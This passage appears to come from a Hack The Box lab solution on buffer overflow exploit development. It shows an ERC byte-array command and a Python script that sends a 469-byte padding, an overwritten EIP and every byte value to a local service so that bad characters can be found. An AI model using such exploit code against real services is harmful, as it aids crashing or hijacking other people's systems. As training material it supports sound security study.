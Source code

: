 Code: powershell

```powershell
ERC --bytearray
```

![[HTB Solutions/Others/z. images/aa9ce808a44165296a02b889d2ba371c_MD5.jpg]]

This will generate a file on the desktop that contains the byte array, students need to copy the characters under "C#":

![[HTB Solutions/Others/z. images/a22424f3b326303c2ea30866893f4d13_MD5.jpg]]

With the copied characters, students need to write a Python script that will find the bad characters:

Code: python

```python
import socket
from struct import pack

IP = "127.0.0.1"
port = 21449

def badCharacters():
    characters = bytes([0x00, 0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07,
    0x08, 0x09, 0x0A, 0x0B, 0x0C, 0x0D, 0x0E, 0x0F,
    0x10, 0x11, 0x12, 0x13, 0x14, 0x15, 0x16, 0x17,
    0x18, 0x19, 0x1A, 0x1B, 0x1C, 0x1D, 0x1E, 0x1F,
    0x20, 0x21, 0x22, 0x23, 0x24, 0x25, 0x26, 0x27,
    0x28, 0x29, 0x2A, 0x2B, 0x2C, 0x2D, 0x2E, 0x2F,
    0x30, 0x31, 0x32, 0x33, 0x34, 0x35, 0x36, 0x37,
    0x38, 0x39, 0x3A, 0x3B, 0x3C, 0x3D, 0x3E, 0x3F,
    0x40, 0x41, 0x42, 0x43, 0x44, 0x45, 0x46, 0x47,
    0x48, 0x49, 0x4A, 0x4B, 0x4C, 0x4D, 0x4E, 0x4F,
    0x50, 0x51, 0x52, 0x53, 0x54, 0x55, 0x56, 0x57,
    0x58, 0x59, 0x5A, 0x5B, 0x5C, 0x5D, 0x5E, 0x5F,
    0x60, 0x61, 0x62, 0x63, 0x64, 0x65, 0x66, 0x67,
    0x68, 0x69, 0x6A, 0x6B, 0x6C, 0x6D, 0x6E, 0x6F,
    0x70, 0x71, 0x72, 0x73, 0x74, 0x75, 0x76, 0x77,
    0x78, 0x79, 0x7A, 0x7B, 0x7C, 0x7D, 0x7E, 0x7F,
    0x80, 0x81, 0x82, 0x83, 0x84, 0x85, 0x86, 0x87,
    0x88, 0x89, 0x8A, 0x8B, 0x8C, 0x8D, 0x8E, 0x8F,
    0x90, 0x91, 0x92, 0x93, 0x94, 0x95, 0x96, 0x97,
    0x98, 0x99, 0x9A, 0x9B, 0x9C, 0x9D, 0x9E, 0x9F,
    0xA0, 0xA1, 0xA2, 0xA3, 0xA4, 0xA5, 0xA6, 0xA7,
    0xA8, 0xA9, 0xAA, 0xAB, 0xAC, 0xAD, 0xAE, 0xAF,
    0xB0, 0xB1, 0xB2, 0xB3, 0xB4, 0xB5, 0xB6, 0xB7,
    0xB8, 0xB9, 0xBA, 0xBB, 0xBC, 0xBD, 0xBE, 0xBF,
    0xC0, 0xC1, 0xC2, 0xC3, 0xC4, 0xC5, 0xC6, 0xC7,
    0xC8, 0xC9, 0xCA, 0xCB, 0xCC, 0xCD, 0xCE, 0xCF,
    0xD0, 0xD1, 0xD2, 0xD3, 0xD4, 0xD5, 0xD6, 0xD7,
    0xD8, 0xD9, 0xDA, 0xDB, 0xDC, 0xDD, 0xDE, 0xDF,
    0xE0, 0xE1, 0xE2, 0xE3, 0xE4, 0xE5, 0xE6, 0xE7,
    0xE8, 0xE9, 0xEA, 0xEB, 0xEC, 0xED, 0xEE, 0xEF,
    0xF0, 0xF1, 0xF2, 0xF3, 0xF4, 0xF5, 0xF6, 0xF7,
    0xF8, 0xF9, 0xFA, 0xFB, 0xFC, 0xFD, 0xFE, 0xFF])
    offset = 469
    buffer = b"A" * offset
    EIP = b"B" * 4
    payload = buffer + EIP + characters
    
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((IP, port))
    s.send(payload)
```